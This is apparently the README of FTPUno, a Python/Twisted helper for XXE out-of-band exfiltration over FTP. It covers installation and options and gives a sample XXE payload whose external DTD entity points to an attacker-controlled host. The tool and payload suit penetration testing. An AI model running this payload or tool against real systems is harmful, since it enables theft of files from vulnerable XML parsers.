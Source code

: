 # FTPUno
A XXE exploitation helper tool to assist in XXE out of band exfiltration using FTP over a single egress port

## Requirements
The following python dependancies are required:
```python
twisted
```

## Installation
The script and dependancies can be installed using the following command:

```python
pip3 install -r ./requirements.txt
```

## Usage
The following options are available as arguments:

```
--outfile
    Path to the target output file
                        
--httpsport
    HTTPS Port to listen on (default 8443)

-u
--uno
    Global port to listen on (default 5000)

-wd
--dtddir
    Folder to server DTD(s) from (default "./")
                        
-fd
--ftpdir
    Folder to server FTP from (default "./")
                        
--ftptimeout
    FTP timeout (default 3s)
                        
--cert_file
    HTTPs public cert file
                        
--key_file
    HTTPs private key file                        
```

#### XXE payload
To trigger the external DTD lookup using a payload similiar to below:
```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE testingxxe [<!ENTITY % remote SYSTEM "http://192.168.31.128:5000/xxe_ftp.dtd" > %remote; ]>
```

## Todo
The following things are todo:
* Further work on File Listing behaviour
* Support for FTP GET command
* Support for EPSV command
